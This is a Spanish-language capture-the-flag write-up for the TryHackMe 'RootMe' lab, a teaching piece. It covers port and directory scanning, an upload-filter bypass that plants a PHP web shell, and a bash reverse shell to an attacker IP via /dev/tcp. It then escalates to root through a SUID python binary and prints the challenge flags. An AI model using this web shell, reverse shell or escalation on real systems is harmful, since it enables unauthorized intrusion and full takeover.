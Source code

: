 ```yaml
---
layout: single
title: RootMe - TryHackMe
excerpt: " A ctf for beginners, can you root me? "
date: 2022-09-25
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-rootme/rootme.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - php
  - python
  - suid
---
```


A ctf for beginners, can you _root me_?

# Summary
- IP: 10.10.233.124
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.29

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.233.124 -oG allPorts
```

- Escaneo profundo de puertos abiertos encontrados:
``` bash
$sudo nmap -p22,80 -sCV 10.10.233.124 -oN targeted
```

- Búsqueda de directorios web con gobuster:
```bash
$gobuster dir -u http://10.10.233.124/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```

- Encontramos un directorio llamado /panel/ el cual nos permite subir archivos; intentamos hacer una reverse shell con un archivo PHP pero no admite subir archivos .php; al parecer solo filtra archivos php, por lo que subimos un archivo "backdoor.php5" con una linea que nos permite ejecutar mediante el link el parámetro "cmd":

``` bash
<?php echo passthru($_GET["cmd"]); ?> 
```

- Ya subido el archivo, lo abrimos desde el directorio "/uploads" y ya podremos ejecutar comandos desde el link con el parámetro "cmd", aquí entablamos una reverse shell básica:

``` 
http://10.10.233.124/uploads/backdoor.php5?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443 0>%261"
```


- Accedemos a la máquina como usuario ww-data, hacemos tratamiento de la tty:
```bash
ww-data$script /dev/null -c bash
CTRL+Z
$stty raw -echo;fg
$reset xterm
$export TERM=xterm
$export SHELL=bash
```

- Encontramos la flag de usuario:

# USER FLAG: THM{y0u_g0t_a_sh3ll}

# ESCALANDO PRIVILEGIOS:

-  Escalación de privilegios; buscamos archivos con permisos SUID:
```bash
find / -perm -4000 2>/dev/null | grep -v snap
```

- Vemos que el binario "python" cuenta con permisos SUID, buscamos en GTFOBINS alguna forma de escalar privilegios con esta información, y encontramos que ejecutando el binario python de la siguiente forma sirve para realizar la escalación de privilegios:
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

- Encontramos la flag de root:

# ROOT FLAG: THM{pr1v1l3g3_3sc4l4t10n}
